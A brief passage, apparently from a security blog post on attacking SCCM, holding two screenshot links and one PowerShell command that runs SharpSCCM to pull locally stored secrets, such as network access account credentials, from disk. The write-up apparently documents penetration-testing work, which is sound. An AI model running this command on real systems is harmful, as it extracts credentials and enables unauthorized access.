 ![local_admin_naa.png](/assets/blog/SCCM/local_admin_naa.png)


```powershell
.\SharpSCCM_merged.exe local secrets -m disk
```

![local_admin_naa2.png](/assets/blog/SCCM/local_admin_naa2.png)
